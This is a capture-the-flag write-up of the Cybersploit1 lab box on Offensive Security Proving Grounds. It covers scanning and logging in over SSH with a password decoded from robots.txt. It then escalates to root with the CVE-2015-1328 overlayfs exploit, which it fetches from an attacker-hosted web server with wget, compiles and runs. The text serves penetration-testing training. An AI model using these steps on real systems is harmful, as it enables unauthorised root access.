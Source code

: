 # Cybersploit1
**Date:** June 1st 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>

![](images/cybersploit10.png)

<br>

## Objectives
- user.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.216.92`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
```

<br>

### Gobuster Scan

`gobuster dir -u http://192.168.216.92 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 2333]
/robots.txt           (Status: 200) [Size: 53]
/hacker               (Status: 200) [Size: 3757743]
```

<br>

## Website Digging

Visiting the main page:

![](images/cybersploit11.png)

Looking at the page source code shows us a username in a comment:

![](images/cybersploit12.png)

Checking out **robots.txt** shows a base64 encoded string:

![](images/cybersploit13.png)

Decoding that string:

`echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d`

```
<REDACTED>
```

Visiting that YouTube page doesn't provide anything for the CTF but it does look like it's probably the channel for the maker of this challenge.

Looking at **/hacker** just shows us the image on the home page.

<br>

## System Access

Not having much else to go on I try the decoded base64 string as a password (which looks more like a flag than a password) and it works for an ssh in as itsskv:

```
itsskv@192.168.216.92's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

itsskv@cybersploit-CTF:~$
```

<br>

## System Enumeration

Looking in our home directory shows **local.txt** which is our first flag on this CTF:

`wc -c local.txt`

```
33 local.txt
```

I check `sudo -l` but we aren't allowed to run anything as root on this user.

Checking for **SUID** and **SGID** files doesn't show us anything interesting. Nor does looking at all files with **capabilities**.

I look at **cronjobs** and there aren't any on the system.

We have standard groups when checking `id`:

```
uid=1001(itsskv) gid=1001(itsskv) groups=1001(itsskv)
```

Other users with bash login shells:

```
root:x:0:0:root:/root:/bin/bash
cybersploit:x:1000:1000:cybersploit,,,:/home/cybersploit:/bin/bash
itsskv:x:1001:1001:,,,:/home/itsskv:/bin/bash
```

One note is looking at **/etc/passwd** shows that all accounts other than those 3 above are set to **/bin/sh** instead of **nologin** or **false** like normal. Strange.

Checking in **/opt** doesn't have anything listed.

The web directory **/var/www** only has 3 files which we've already seen previously through the website.

Taking a look at **/etc/issues** shows us that it's:

```
Ubuntu 12.04.5 LTS \n \l
```

Doing a quick **google search** for "ubuntu 12.04.5 exploit" shows us this as the top result:

![](images/cybersploit14.png)

It says Ubuntu 12.04 systems with kernal versions before June 6th 2015 are vulnerable to this exploit. I check `uname -a` and it should work on this system:

```
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
```

On my home system I use **searchsploit** to move the code over to my current directory, host a simple python webserver, and wget the file over to the target system:

`searchsploit -m 37292`

`python3 -m http.server 80`

`wget 192.168.49.216/37292.c`

Compiling the code on that target system:

`gcc 37292.c -o exploit`

```
-rwxrwxr-x  1 itsskv  itsskv   12016 Jun  1 20:49 exploit
```

<br>

## Root

Now that we have it compiled lets run and see if it works. According to the exploit-db page you just run it and don't need to provide any arguments:

`./exploit`

```
itsskv@cybersploit-CTF:/tmp$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# hostname
cybersploit-CTF
```

Well, that was definitely an easy exploit to use and we have root!

Looking in **/root** we find our final flag in **proof.txt**:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!

![](images/cybersploit15.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding a comment in the **webpage source code** that listed a username
- Decoding a **base64** string that was found in **robots.txt**
- Using the username and decoded string to login via **ssh**
- Noticing that the system is a very old version at **Ubuntu 12.04.5** and finding it's vulnerable to **CVE-2015-1328** aka **overlayfs**
- Using the **overlayfs** exploit to escalate our privilages to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
